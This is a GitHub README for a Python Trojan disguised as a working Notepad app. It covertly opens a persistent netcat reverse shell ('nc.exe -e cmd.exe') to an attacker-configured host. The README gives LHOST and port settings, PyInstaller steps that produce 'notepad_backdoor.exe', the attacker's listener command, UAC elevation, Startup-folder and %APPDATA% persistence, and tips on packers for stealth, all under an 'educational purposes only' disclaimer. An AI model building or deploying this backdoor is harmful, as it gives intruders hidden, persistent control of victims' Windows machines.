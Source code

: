 # 🕵️‍♂️ Notepad-Reverse-Shell (Python + Netcat Reverse Shell)

A deceptive Notepad application built in Python that masquerades as a functional text editor while silently establishing a persistent reverse shell using `nc.exe`. The GUI mimics a standard Notepad, allowing users to open and save files, while covertly connecting to an attacker's machine every 10 seconds.

> ⚠️ **FOR EDUCATIONAL PURPOSES ONLY.**  
> **DO NOT USE ON SYSTEMS WITHOUT EXPLICIT AUTHORIZATION. Unauthorized use is illegal and unethical.**

---

## 🚀 Features

| Feature | Description |
|---------|-------------|
| ✔️ **Notepad GUI** | Fully functional text editor with open/save file capabilities |
| ✔️ **Reverse Shell** | Persistent Netcat reverse shell (`nc.exe -e cmd.exe`) |
| ✔️ **Silent Execution** | Runs covertly via a `.vbs` wrapper for stealth |
| ✔️ **UAC Elevation** | Automatically prompts for administrative privileges |
| ✔️ **Startup Persistence** | Auto-starts on reboot via `%APPDATA%` and Windows Startup folder |
| ✔️ **Retry Loop** | Reattempts reverse shell connection every 10 seconds if disconnected |
| ✔️ **Windows-Specific** | Executes only when Windows Defender is disabled and firewall permits outbound traffic |

---

## ⚙️ Configuration

Modify the following variables at the top of `Notepad.py` to configure the reverse shell:

```python
LHOST = "YOUR_ATTACKER_IP"  # Attacker's IP address
LPORT = 4444               # Attacker's listening port
NC_PATH = r"C:\Path\To\nc.exe"  # Path to Netcat executable on target
```

### Example Configuration
```python
LHOST = "192.168.138.128"
LPORT = 4444
NC_PATH = r"C:\Users\Test_Lab\Desktop\Toolbox\netcat\nc.exe"
```

---

## 📋 Prerequisites

Ensure the target system meets the following conditions for successful execution:

| Requirement | Description |
|-------------|-------------|
| **Operating System** | Windows 7, 8, 10, or 11 (32-bit or 64-bit) |
| **Windows Defender** | Must be disabled to allow `nc.exe` execution |
| **Firewall** | Must allow outbound traffic on the configured `LPORT` (e.g., 4444) |
| **Python 3.7+** | Required for development and building the `.exe` |
| **Tkinter** | GUI library (typically included with Python) |
| **PyInstaller** | Converts `.py` to `.exe` (`pip install pyinstaller`) |
| **Netcat (`nc.exe`)** | Windows-compatible Netcat binary (available from [Nmap Ncat](https://nmap.org/ncat)) |

---

## 🔨 Building the Executable

To compile `Notepad.py` into a silent, standalone `.exe`, follow these steps using a Python 3.7 virtual environment:

```bash
# 1. Navigate to the project directory
cd path\to\your\project

# 2. Create and activate a Python 3.7 virtual environment
py -3.7 -m venv venv37
venv37\Scripts\activate

# 3. Install PyInstaller
pip install pyinstaller

# 4. Clone the Repo
git clone https://github.com/arslanjv/notepad-reverse-shell.git
cd notepad-reverse-shell

# 5. Compile the script into a single executable
pyinstaller --onefile --noconsole --name=notepad_backdoor Notepad.py
```

### Output
- **Location**: `dist/notepad_backdoor.exe`
- **Size**: Approximately 5-10 MB (varies with dependencies)
- **Execution**: GUI-only, no console window

---

## 💻 Usage Instructions

### Attacker Machine
1. **Start a Netcat Listener**:
   ```bash
   ncat -lvnp 4444
   ```
   Ensure the port matches the `LPORT` configured in `Notepad.py`.

2. **Verify Network Accessibility**:
   - Confirm the attacker's machine is reachable from the target network.
   - Ensure no firewall blocks inbound traffic on `LPORT`.

### Target Machine (Windows)
1. **Prerequisites**:
   - **Disable Windows Defender**: The `.exe` will fail to execute if Windows Defender is active, as it may flag `nc.exe` as malicious.
   - **Configure Firewall**: Allow outbound traffic on the specified `LPORT` (e.g., 4444) via Windows Firewall or equivalent.

2. **Deploy the Executable**:
   - Double-click `notepad_backdoor.exe` on the target machine.
   - The executable will:
     - Prompt for UAC administrative access.
     - Deploy a `.bat` and `.vbs` file in `%APPDATA%` for persistence.
     - Add itself to the Windows Startup folder.
     - Initiate a reverse shell connection in a 10-second retry loop.
     - Launch a functional Notepad GUI as a decoy.

3. **Verify Execution**:
   - Check the attacker's listener for an incoming connection from the target.
   - Use the functional Notepad GUI to maintain the appearance of a legitimate application.

---

## 🛡️ Security Considerations

- **Windows Defender**: The reverse shell relies on `nc.exe`, which is often detected as malicious. Ensure Windows Defender is disabled on the target system for testing purposes.
- **Firewall Configuration**: The target’s firewall must permit outbound connections on the specified `LPORT`. Use `netsh advfirewall` or the Windows Firewall GUI to configure rules if needed.
- **Obfuscation**: The current implementation does not obfuscate `nc.exe` or the `.exe`. Consider tools like UPX or custom packers for enhanced stealth in advanced scenarios.
- **Privilege Escalation**: The UAC prompt requires user interaction. Without admin rights, persistence via the Startup folder may fail.

---

## ⚠️ Legal and Ethical Disclaimer

This project is intended **solely for educational purposes**, such as penetration testing, red team exercises, or malware analysis in controlled lab environments. Unauthorized deployment on systems without explicit permission is **illegal** and violates ethical standards. The author assumes **no responsibility** for misuse.

---

## 👨‍💻 Author

**Muhammad Arsalan Javed**   
**GitHub**: [github.com/arslanjv](https://github.com/arslanjv)  

---

## 📜 License

This project is licensed under the [MIT License](https://opensource.org/licenses/MIT). Use responsibly and respect all applicable laws.
